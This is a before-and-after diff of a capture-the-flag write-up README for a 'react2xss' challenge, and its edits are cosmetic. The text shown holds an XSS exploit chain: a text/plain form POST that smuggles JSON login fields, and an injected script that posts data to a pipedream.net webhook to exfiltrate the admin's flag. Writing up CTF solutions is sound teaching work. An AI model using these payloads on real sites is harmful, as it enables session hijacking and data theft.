

Before and after one commit to autoexecbat-ctf/write-ups, a Markdown page: polyuctf2026/react2xss/README.md, 3 parts joined by grey strips. GitHub-like rendering.

Commit message:
Typo correction

````diff
--- a/polyuctf2026/react2xss/README.md
+++ b/polyuctf2026/react2xss/README.md
@@ -49,13 +57,13 @@ To explore further on the possible restrictions:
 
 - HTTP response header: `X-Frame-Options: DENY`. It means `<frame>`, `<iframe>`, `<embed>`, `<object>` won't work. (`middleware.ts`)
 - Cookie options are as below (`lib/session.ts`). It means the top-level navigations with `GET` request will have the cookies sent, esp. admin's cookies.
-    ```
-        cookieOptions: {
+    ```javascript
+    cookieOptions: {
         secure: false,
         httpOnly: true,
         maxAge: 60 * 60 * 24,
         sameSite: 'Lax'
-      },
+    },
     ```
 - The admin bot waits for extra 5 seconds after visiting the given URL. It will give enough time for our script to trigger the re-login in a new window and exfiltrate the flag. (`lib/bot.ts`)
 
@@ -100,7 +108,7 @@ attacker.document.write(`
       form.method = 'POST';
       form.enctype = 'text/plain';
       form.target = 'login_target';
-      var input = document.createElement('input');
+      const input = document.createElement('input');
       input.name = '{"username":"user2","password":"password123","ignore":"';
       input.value = '"}';
       form.appendChild(input);
@@ -128,7 +136,7 @@ setTimeout(function() {
 JS Script to be injected (`xss.js`)
 
 ```javascript
-var WEBHOOK = 'https://<my-account>.m.pipedream.net/?v=1';
+const WEBHOOK = 'https://<my-account>.m.pipedream.net/?v=1';
 function toStr(o) {
 	return btoa(unescape(encodeURIComponent(o)));
 }
````
Also changed, not shown: other parts of polyuctf2026/react2xss/README.md (+9 -1 lines).
